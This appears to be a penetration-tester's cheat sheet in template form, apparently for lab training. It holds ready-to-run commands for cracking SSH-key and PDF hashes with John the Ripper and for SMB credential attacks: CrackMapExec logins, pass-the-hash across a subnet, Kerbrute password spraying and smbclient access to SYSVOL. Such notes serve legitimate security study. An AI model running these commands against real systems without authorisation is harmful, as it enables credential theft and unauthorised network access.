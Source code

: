 #### SSH 
- Convert ssh key
```
ssh2john id_rsa > ssh.hash
```
- Crack
```
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=sshRules ssh.hash
```
- John rules
```
cat ssh.rule

[List.Rules:sshRules]
$1 $3 $7 $1

sudo sh -c 'cat /home/kali/passwordattack/ssh.rule >> /etc/john/john.conf'
```

#### PDF
```
pdf2john test.pdf
```
- Crack with 
```
john --wordlist=/usr/share/wordlists/rockyou.txt infra.hash
```
### Crackmapexec
```
crackmapexec smb <%tp.frontmatter.IP%> -u '<%tp.frontmatter.Username%>' -p '<%tp.frontmatter.Password%>' -d corp.com --continue-on-success
```
- PTH
```
crackmapexec smb 172.16.157.0/24 -u <%tp.frontmatter.Username%> -H 'NTHASH'
```
- Password Spraying


### Kerbrute
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "<%tp.frontmatter.Password%>"
```

## SMB
### SMBMAP
```
smb-map --host-file 
```

### SMB Client
```
smbclient  \\\\<%tp.frontmatter.IP%>\\SYSVOL -U username%password
```
